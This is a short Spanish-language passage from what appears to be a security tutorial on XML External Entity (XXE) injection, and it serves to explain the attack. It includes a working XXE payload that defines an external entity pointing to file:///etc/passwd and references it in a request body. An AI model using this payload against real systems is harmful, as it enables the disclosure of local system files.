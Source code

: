* Los más peligrosos son los privados, porque nos permiten revelar archivos del sistema local, jugar con esquemas de red, manipular aplicaciones internas, etc.

### Resource Inclusion

El atacante suba/elabora un archivo XML malicioso

Esto incluye una definición de entidad externa que apunta a un archivo local:

```xml
<!ENTITY xxefile SYSTEM "file:///etc/passwd">
```

Luego, en el cuerpo de la solicitud XML, añaden la referencia a la entidad creada:

```xml
<body>&xxefile;</body>
```

![](<../../.gitbook/assets/image (39).png>)

![](<../../.gitbook/assets/image (40).png>)
